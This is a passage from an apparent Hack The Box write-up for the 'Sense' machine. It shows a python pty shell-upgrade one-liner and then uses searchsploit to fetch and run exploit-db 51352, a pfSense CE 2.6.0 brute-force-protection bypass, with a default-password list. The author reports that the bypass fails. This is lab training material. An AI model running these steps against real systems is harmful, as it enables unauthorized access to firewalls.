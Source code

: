 Another way is to spawn `/bin/sh`, but won't be able to tab auto complete

```bash
python -c 'import pty;pty.spawn(""/bin/sh")'
CTRL + Z
stty raw -echo; fg
export TERM=xterm
```


### pfsenseCE v2.6.0 - Anti-brute force protection bypass

Google : `pfsense brute force login`

> https://www.exploit-db.com/exploits/51352

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ searchsploit -m 51352
  Exploit: pfsenseCE v2.6.0 - Anti-brute force protection bypass
      URL: https://www.exploit-db.com/exploits/51352
     Path: /usr/share/exploitdb/exploits/hardware/remote/51352.py
    Codes: CVE-2023-27100
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/Sense/51352.py
```

![](/assets/obsidian/e538cc24eae03d1404d94f491a0ccf88.png)

Failed to bypass, still getting banned

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ python 51352.py -l https://$(jq -r .rhosts .config.json)/ -u users.tst -p /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt
pfsenseCE <= 2.6.0 Anti-brute force protection bypass
```



